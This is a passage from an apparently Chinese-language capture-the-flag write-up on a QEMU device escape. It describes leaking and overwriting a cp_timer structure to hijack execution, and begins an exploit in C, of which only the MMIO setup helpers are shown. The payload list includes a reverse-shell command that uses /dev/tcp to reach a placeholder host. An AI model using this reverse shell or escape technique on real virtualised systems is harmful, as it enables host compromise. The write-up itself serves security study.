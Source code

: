 ### 3. 漏洞利用

- 通过溢出的读取，泄露 cp_timer 结构体，其中存在 PIE 基址（计算出 system@plt 的地址）和堆地址（整个结构的位置在堆上，计算出结构的开始位置，才能得到我们写入 system 参数的位置）。
- 通过溢出的写入，覆盖 cp_timer 结构体控制程序执行流

触发时钟可以利用两种方式：

- 虚拟机重启或关机的时候会触发时钟，调用 cb(opaque)
- 在 MMOI WRITE 中可以触发时钟

system 执行内容：

- cat /flag
- 反弹 shell，/bin/bash -c ‘bash -i >& /dev/tcp/ip/port 0>&1’，在 QEMU 逃逸中，执行 system(“/bin/bash”) 是无法拿到 shell 的，或者说是无法与 shell 内容交互的，必须使用反弹 shell 的形式才能够拿到 shell。
- 弹出计算器，gnome-calculator，这个大概比较适合用于做演示视频吧。

注意：所有在设备中的操作地址都是指 QEMU 模拟的物理地址，但是程序中使用 mmap 申请的是虚拟地址空间。所以要注意使用 mmap 申请出来的超过一页的部分，在物理空间上不连续。如果需要操作那块空间，需要使用那一页的虚拟地址重新计算对应的物理地址。这个性质在这道题中（超过 0x1000 的物理地址复制），需要额外的注意。

### 4. Exploit

````c
#include <stdint.h>
#include <fcntl.h>
#include <sys/mman.h>
#include <sys/io.h>
#include <stdio.h>
#include <unistd.h>
#include <string.h>
#include <assert.h>

#define HEX(x) printf("[*]0x%016lx\n", (size_t)x)
#define LOG(addr) printf("[*]%s\n", addr)

unsigned char* mmio_mem;
uint64_t phy_userbuf;
char *userbuf;
uint64_t phy_userbuf1;
uint64_t phy_buf0;
char *userbuf1;
int fd;
void Err(char* err){
    printf("Error: %s\n", err);
    exit(-1);
}

void init_mmio(){
    int mmio_fd = open("/sys/devices/pci0000:00/0000:00:04.0/resource0", O_RDWR | O_SYNC);
    if(mmio_fd < 0){
        Err("Open pci");
    }
    mmio_mem = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);
    if(mmio_mem<0){
        Err("mmap mmio_mem");
    }
}

void mmio_write(uint64_t addr, uint64_t value){
    *((uint64_t*)(mmio_mem+addr)) = value;
}

uint64_t mmio_read(uint64_t addr){
    return *((uint64_t*)(mmio_mem+addr)); 
}
````